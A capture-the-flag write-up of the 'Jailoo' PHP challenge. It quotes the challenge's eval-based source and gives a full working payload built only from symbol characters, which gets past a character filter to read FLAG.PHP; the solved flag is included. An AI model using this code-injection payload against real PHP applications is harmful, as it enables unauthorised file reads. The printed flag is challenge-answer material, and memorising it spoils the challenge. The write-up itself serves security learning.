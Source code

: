 #Fword CTF Jailoo

**tl;dr**

+ Input executed with eval
+ Regex and blacklist restricts alphanumericals
+ Php webshell with `$(])_[=;+".` chars gives flag


## Challenge description
Get the flag in FLAG.PHP.

## Initial analysis

![one](one.png)
`if(preg_match_all('/^(\$|\(|\)|\_|\[|\]|\=|\;|\+|\"|\.)*$/', $cmd, $matches)){
	echo "<div class=\"success\">Command executed !</div>";
	eval($cmd);`
	
The challenge page takes an input, after analysising the source code, we find the following: 
The input is executed with `eval` function. The regex accepts only `$(])_[=;+".` characters. There was a similar challenge in a previous CTF making Php webshell without numbers and letters. Reference: https://www.programmersought.com/article/7881105401/
So the cooking of the webshell begins, although few obvious functions like file_get_contents where blacklisted -_-
One that worked was `readfile('FLAG.PHP');`
The command for the 20 letter string being `$_=[];$_="$_";$_=$_["."+"."];$___="";$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$___.=$__;$__=$_;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$_____="";$__=$_;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$_____.=".";$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$___($_____);`

Giving the above string gave us the flag   `$flag="FwordCTF{Fr0m_3very_m0unta1ns1d3_l3t_fr33d0m_r1ng_MLK}";`


## Flag

**FLAG**: `  $flag="FwordCTF{Fr0m_3very_m0unta1ns1d3_l3t_fr33d0m_r1ng_MLK}";`

For further queries, please DM me on Twitter: <https://twitter.com/m0n574>.
